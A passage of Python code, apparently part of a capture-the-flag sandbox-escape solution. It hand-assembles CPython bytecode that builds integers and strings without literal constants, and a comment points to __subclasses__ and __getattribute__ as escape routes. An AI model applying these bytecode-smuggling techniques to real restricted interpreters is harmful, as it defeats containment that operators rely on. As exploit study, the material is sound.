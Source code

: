 ```python

def dup_top():
    return bytes([opmap["DUP_TOP"], 0])


def gen_int(x: int):
    if x == 0:
        return gen_zero()
    if x < 0:
        return gen_int(-x) + bytes([opmap["UNARY_NEGATIVE"], 0])
    b = bin(x)[2:]
    b = b[::-1]
    n = len(b)
    ans = gen_one()
    for i in range(n-1):
        if b[i] == '1':
            ans += dup_top()
        ans += dup_top()
        ans += bytes([opmap["BINARY_ADD"], 0])
    for i in range(n-1):
        if b[i] == '1':
            ans += bytes([opmap["BINARY_ADD"], 0])
    return ans


def gen_empty_str():
    return bytes([opmap["BUILD_STRING"], 0])


def gen_char(c):
    s = f"{''.__class__.__dict__}"
    if c not in s:
        raise ValueError()
    idx = s.index(c)
    return \
        gen_empty_str() + \
        get_class() + \
        get_dict() + \
        bytes([opmap["FORMAT_VALUE"], 1]) + \
        gen_int(idx) + \
        bytes([opmap["BINARY_SUBSCR"], 0])


def gen_string(helper, s: str):
    hint, code = helper()
    shint = f'{hint}'
    idx = shint.find(s)
    return code + \
        bytes([opmap["FORMAT_VALUE"], 1]) + \
        gen_int(idx) + \
        gen_int(idx + len(s)) + \
        bytes([opmap["BUILD_SLICE"], 2]) + \
        bytes([opmap["BINARY_SUBSCR"], 0])


def str_helper1():
    # __base__, __subclassess__, __init__, __getattribute__
    hint = ''.__class__.__class__.__dict__
    code = \
        gen_empty_str() + \
        get_class() + \
        get_class() + \
        get_dict()
```